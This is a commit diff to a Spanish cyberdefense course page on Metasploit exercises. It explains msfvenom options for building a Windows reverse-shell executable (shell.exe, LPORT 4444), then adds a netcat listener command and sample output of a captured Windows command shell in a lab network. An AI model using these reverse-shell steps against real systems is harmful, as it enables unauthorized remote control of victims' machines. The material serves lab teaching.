

Before and after one commit to ollerenac/ciberdefensa-modulo4, an MkDocs documentation site: the page built from docs/conferencias/ejercicios-extra-metasploit.md, in a window 1280 px wide and 900 px high, scrolled down 6620 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
docs(metasploit): add reverse connection evidence

````diff
--- a/docs/conferencias/ejercicios-extra-metasploit.md
+++ b/docs/conferencias/ejercicios-extra-metasploit.md
@@ -254,6 +254,25 @@
 - `LPORT=4444`: Significa Listening Port. Es el puerto del atacante que estará esperando la conexión entrante. El puerto 4444 es el valor por defecto en Metasploit.
 - `-f exe`: Define el formato de salida (format). En este caso, le indica a msfvenom que compile el payload como un archivo ejecutable tradicional de Windows (.exe).
 - `-o shell.exe`: Define el nombre del archivo de salida (output). El ejecutable generado se guardará en tu directorio actual con el nombre shell.exe
+
+- En la máquina Ubuntu, ejecutar:
+
+```bash
+sudo nc -lnvp 4444
+```
+
+- Se supone que el binario producido (`shell.exe`) es introducido de alguna manera a la máquina de Windows, y al ejecutarse produce esta conexión en la máquina atacante:
+
+```bash
+user@VM-Ubuntu:~$ sudo nc -lnvp 4444
+[sudo] password for user:
+Listening on 0.0.0.0 4444
+Connection received on 192.168.56.102 63966
+Microsoft Windows [Versión 10.0.26200.9168]
+(c) Microsoft Corporation. Todos los derechos reservados.
+
+C:\Users\operador_alumno\Downloads>
+```
 
 ### Paso 11 — Buscamos otros payloads
 
````
